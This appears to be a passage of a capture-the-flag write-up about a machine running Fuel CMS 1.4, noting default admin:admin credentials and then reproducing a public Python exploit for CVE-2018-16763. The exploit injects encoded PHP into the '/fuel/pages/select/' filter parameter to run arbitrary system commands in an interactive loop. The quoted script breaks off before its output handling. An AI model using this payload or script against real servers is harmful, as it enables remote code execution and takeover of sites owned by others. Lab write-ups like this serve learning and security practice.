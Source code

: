 This shows that there was a webserver running on port 80. Hey! Fuel CMS. Came across CMSes in the previous room.

## Webserver

Going to the webserver, we see this:

![Image](./img/ignite/fuelcms.png)

From this, we can see a few things:

1. It is indeed running Fuel CMS, and is on version 1.4
2. There is a database configuration found in `/fuel/application/config/database.php` and other configuration files in `/fuel/application/config/`
3. There is a `/fuel` directory, with credentials admin:admin.

### /fuel

Using the credentials, we can login to the `/fuel` directory.

![Image](./img/ignite/fuel.png)

After a bit of poking around, I didn't manage to find anything useful. I then took to Google-ing for things related to Fuel CMS. I then came across `ExploitDB` and found a [Fuel CMS 1.4.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47138) exploit.

# Exploit

The exploit was a Python script:

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

```